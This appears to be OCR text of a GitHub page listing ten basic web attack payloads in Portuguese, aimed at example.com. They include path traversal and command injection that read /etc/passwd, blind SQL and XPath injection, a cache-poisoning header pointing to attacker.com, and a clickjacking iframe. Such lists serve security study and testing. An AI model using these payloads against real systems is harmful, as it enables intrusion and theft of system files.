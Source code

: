 ### Exemplos de Payloads

#### 1. Arbitrary File Access
```http
http://example.com/index.php?page=../../../../etc/passwd
```

#### 2. Binary Planting
```http
http://example.com/upload?file=malicious.dll
```

#### 3. Blind SQL Injection
```http
http://example.com/index.php?id=1' AND SLEEP(5)--
```

#### 4. Blind XPath Injection
```http
http://example.com/search?query=' or 1=1 or 'a'='a
```

#### 5. Brute Force Attack
```plaintext
username=admin&password=password1
username=admin&password=password2
...
```

#### 6. Buffer Overflow Attack
```plaintext
A * 2048
```

#### 7. Cache Poisoning
```http
GET / HTTP/1.1
Host: victim.com
X-Forwarded-Host: attacker.com
```

#### 8. Clickjacking
```html
<iframe src="http://example.com" style="opacity:0; position:absolute; top:0; left:0; width:100%; height:100%;"></iframe>
```

#### 9. Command Injection
```http
http://example.com/?cmd=ls
http://example.com/?cmd=ls|cat%20/etc/passwd
```

#### 10. Comment Injection Attack
```http
http://example.com/index.php?id=1;-- 
```

